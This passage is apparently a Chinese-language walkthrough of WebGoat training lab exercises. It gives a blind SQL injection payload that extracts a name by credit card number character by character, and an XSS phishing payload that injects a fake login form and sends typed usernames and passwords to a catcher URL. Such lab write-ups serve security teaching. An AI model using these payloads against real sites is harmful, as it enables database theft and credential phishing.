 #### Blind String SQL Injection

和上方的类似，在`ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz`中使用二分就可以一个一个字符地拿到想要的值，判断的SQL语句使用SUBSTRING来获得中间的任意字符。

`101 AND (SUBSTRING((SELECT name FROM pins WHERE cc_number='4321432143214321'), 1, 1) < 'M' );`

ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz

最后拿到值为`Jill`

![image-20230517102914473](assets/image-20230517102914473.png)

### Cross-Site Scripint

#### Phishing with XSS

构造钓鱼表单，在用户点击登录提交信息的时候使用Image的src自动发送Get请求完成网络攻击。

具体攻击XSS脚本如下：

```html
</form><script>function hack(){ XSSImage=new Image; XSSImage.src="http://localhost:8080/WebGoat/catcher?PROPERTY=yes&user="+document.phish.user.value + "&password=" + document.phish.pass.value + "";alert("Had this been a real attack... Your credentials were just stolen. User Name = " + document.phish.user.value + " Password = " + document.phish.pass.value);} </script><form name="phish"><br><br><HR><H3>This feature requires account login:</H2><br><br>Enter Username:<br><input type="text" name="user"><br>Enter Password:<br><input type="password" name = "pass"><br><input type="submit" name="login" value="login" onclick="hack()"></form><br><br><HR>
```
